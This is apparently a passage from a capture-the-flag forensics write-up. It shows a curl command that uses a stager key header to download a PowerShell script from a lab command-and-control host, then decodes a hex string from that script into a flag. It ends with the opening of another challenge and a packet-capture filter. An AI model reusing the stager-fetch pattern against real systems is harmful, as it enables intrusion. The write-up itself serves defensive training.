 ```bash
$ curl -H "X-ST4G3R-KEY: 5337d322906ff18afedc1edc191d325d" http://korp.htb:57732/a541a -o a541a.ps1

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   169  100   169    0     0    363      0 --:--:-- --:--:-- --:--:--   363
```

```bash
$ cat a541a.ps1 
$a35 = "4854427b37683052314e5f4834355f346c573459355f3833336e5f344e5f39723334375f314e56336e3730727d"
($a35-split"(..)"|?{$_}|%{[char][convert]::ToInt16($_,16)}) -join ""
```

```python
# Hex-encoded string
hex_string = "4854427b37683052314e5f4834355f346c573459355f3833336e5f344e5f39723334375f314e56336e3730727d"

# Convert hex string to ASCII text
decoded_flag = bytes.fromhex(hex_string).decode("utf-8")
print(decoded_flag)
```

```
HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}
```

#### Silent Trap
A critical incident has occurred in Tales from Eldoria, trapping thousands of players in the virtual world with no way to log out. The cause has been traced back to Malakar, a mysterious entity that launched a sophisticated attack, taking control of the developers' and system administrators' computers. With key systems compromised, the game is unable to function properly, which is why players remain trapped in Eldoria. Now, you must investigate what happened and find a way to restore the system, freeing yourself from the game before it's too late.

##### Flags
1. What is the subject of the first email that the victim opened and replied to?
```
frame contains "email"
```
![](assets/posts/cyberApocalypse/assets/forensics/trap1.png)
follow tcp the first one